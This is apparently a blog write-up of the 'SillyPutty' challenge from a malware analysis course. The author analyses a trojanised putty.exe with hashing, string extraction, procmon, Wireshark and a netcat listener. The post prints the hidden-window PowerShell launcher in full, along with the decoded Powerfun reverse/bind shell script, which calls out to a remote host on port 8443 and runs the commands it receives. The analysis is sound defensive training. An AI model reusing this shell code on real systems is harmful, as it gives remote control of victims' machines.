 ```yaml
---
title: "PMAT Challenge 1: SillyPutty"
description: SillyPutty
draft: false
tags: ["cyber security", "malware analysis"]
---
```


First challenge of the TCM Academy Practical Malware Analysis and Triage course.

## Introduction

[TCM Academy](https://academy.tcm-sec.com/) is a great resource for learning cyber security concepts. 
Their noble goal is to offer top-notch cyber security courses, taught
by great teachers, with a price that is affordable for everyone. 
Their slogan is:
>Want to learn how to hack things without breaking the bank? We've got you covered.

I can absolutely vouch for their course [Practical Malware Analysis and Triage](https://academy.tcm-sec.com/p/practical-malware-analysis-triage).
Matt Kieley is an amazing teacher whose enthusiasm shines through all his lectures. 

In this article, I will be looking at the first challenge of this course, named "SillyPutty".
All materials can be found on this Matt's Github page:

[https://github.com/HuskyHacks/PMAT-labs/tree/main/labs/1-3.Challenge-SillyPutty](https://github.com/HuskyHacks/PMAT-labs/tree/main/labs/1-3.Challenge-SillyPutty)

The analysis is performed on a Flare VM and REMNux to simulate network services.
The goal of this challenge is to answer multiple questions about the behavior of
the binary in question, so with these questions as guidance, let's start!

## Static Analysis
  
We set out by pulling hashes and gathering some data about the binary by pulling the SHA256 hash, the following command:
```
Get-FileHash putty.exe
```
Returns this hash:
```
0C82E654C09C8FD9FDF4899718EFA37670974C9EEC5A8FC18A167F93CEA6EE83 
```

The hash will be used later on to find some information about it in VirusTotal.
Now we move on to investigating the header of the binary as part of basic static analysis.
Using PEStudio, the binary shows that the first few bytes are the following
```
M Z x .. .. .. .. .. .. .. .. .. .. .. .. .. .. .. ..
```
This indicative of a Windows Portable Executable, and the architecture is 32-bits. 
Searching for the SHA256 hash in VT shows that it is definitely malicious, with 59/72 AV vendors
marking this as a virus:
![VT](img/vt.png)
  
Now strings will be extracted by using FLOSS on the binary. This gives a long wall of strings to search through, but looking carefully
the following seemingly malicious Powershell command can be observed. It attempts to execute
a base64 encoded blob (removed from this command for brevity):
```
powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]  
::create((New-Object System.IO.StreamReader(New-Object System.IO.   
Compression.GzipStream((New-Object System.IO.MemoryStream  
(,[System.Convert]::FromBase64String('BASE64 BLOB HERE'))),  
[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
```

What stands out about this command in particular are the parameters, as 
this command attempts to spawn with a hidden window (-w hidden), in non-interactive
mode (-noni), and bypassing the execution policy (-ep bypass).

A further look at the PE header, the import address table (IAT) in particular, shows there are many API calls 
that may be abused for malicious activity, such as RegCreateKeyA, ShellExecutaA, CreateProcessA, GetClipBoardData, 
there are too many to name. Judging from the readily visible API calls, there is no indication that this binary is packed.
Running the binary through PEiD shows that the binary is unpacked (or at least unrecognized by PEiD). This concludes
the basic static analysis. Next, we turn to the dynamic analysis to observe the behavior while running the binary. 


## Dynamic Analysis

To start dynamic analysis, the executable is run as-is, without any internet service simulation. 
Running the executable shows a Powershell window for a brief moment, which is abnormal behavior for non-malicious Putty.
Using procmon, it is observed that the previous encountered powershell script opens port 8443 on the machine. To better understand
what the script does, we need to decode it first. The base64 blob is decoded, followed by a Gunzip step in CyberChef, which shows the following contents:
```powershell
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}
```
From the looks of it, this script indeed opens a reverse shell on port 8443. 
We also see that it takes multiple commands, such as "bind" and "reverse", referring
to the nature of the shell that will be spawned on the compromised host. The SSL con feature
suggests that the communication with the shell is likely encrypted with SSL. 
If we keep an eye on Wireshark while detonating the binary, multiple DNS requests
are observed to the following domain (as can also can be observed in the script):
```
bonus2.corporatebonusapplication.local
```
  
Armed with the knowledge that the binary opens what seems to be a reverse shell on port 8443, we head over
to REMnux to set up a Netcat listener:
```
nc -l 10.0.0.101 8443
```
Indeed, when running putty.exe again we will have a shell:

![shell](img/shell.png?width=100px)

This shell shows garbled output, because we do not have the right SSL certificate
to properly connect to this shell. 

## Conclusion

This concludes challenge 1, as all the questions have been answered. 
Practice makes perfect, and doing these challenges is a lot of fun!
I'm looking forward to what the other challenges are like,
even though this is was just a warmup in terms of analysis.



